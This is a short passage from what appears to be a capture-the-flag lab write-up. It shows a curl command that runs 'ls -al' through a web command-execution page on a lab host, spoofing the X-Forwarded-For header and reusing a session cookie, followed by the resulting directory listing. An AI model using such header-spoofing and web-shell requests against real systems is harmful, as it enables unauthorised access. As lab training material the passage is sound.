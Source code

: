 <figure><img src=".gitbook/assets/image (296).png" alt=""><figcaption></figcaption></figure>

We can easily use Curl instead:

{% code overflow="wrap" lineNumbers="true" %}
```bash
┌──(dking㉿dking)-[~/Downloads/git]
└─$ curl -s -X POST http://shell.harder.local/index.php -H 'X-Forwarded-For: 10.10.10.20' -H 'Cookie: PHPSESSID=gm2h9n2o2m0epf2pcsnp6ibhau' --data 'cmd=ls -al' | html2text



***** Execute a command *****
Command [ls -al              ]
Execute
***** Output *****
total 48
drwxr-xr-x    1 www      www           4096 Oct  3  2019 .
drwxr-xr-x    1 www      www           4096 Jul  7  2020 ..
-rw-r--r--    1 www      www          23838 Oct  3  2019 auth.php
-rw-r--r--    1 www      www           2014 Oct  3  2019 index.php
-rw-r--r--    1 www      www            275 Oct  3  2019 ip.php
drwxr-xr-x    4 www      www           4096 Oct  3  2019 vendor
```
{% endcode %}
